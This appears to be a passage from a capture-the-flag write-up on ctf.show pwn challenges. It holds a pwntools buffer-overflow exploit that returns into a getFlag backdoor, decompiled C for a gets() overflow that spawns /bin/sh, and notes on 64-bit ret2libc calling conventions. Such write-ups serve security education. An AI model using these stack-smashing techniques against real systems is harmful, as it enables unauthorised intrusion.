 

no param | ret addr of welcome | old ebp |  char s |

```python
from pwn import*
r=remote("pwn.challenge.ctf.show", 28110)
elf = ELF("./pwn5")
backdoor=elf.symbols["getFlag"]
payload="a"*(0x14+4)+p32(backdoor)
r.sendline(payload)
r.interactive()
```



## pwn06



checksec: NX

file: ELF 64 bit

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  welcome();
  return 0;
}

int welcome()
{
  char s; // [rsp+4h] [rbp-Ch]
  gets(&s);
  return puts(&s);
}

int getFlag()
{
  return system("/bin/sh");
}
```





## pwn07: 64-ROPgadget-ret2libc

file: amd64-64-little

checksec: NX

Stack balance is needed in 64-bit system, which means params will be stored in the stack only after the first 6 registers have been occupied .

The 1st、2nd、3rd... param respectively stored to **RDI、RSI、RDX、RCX、R8、R9**.
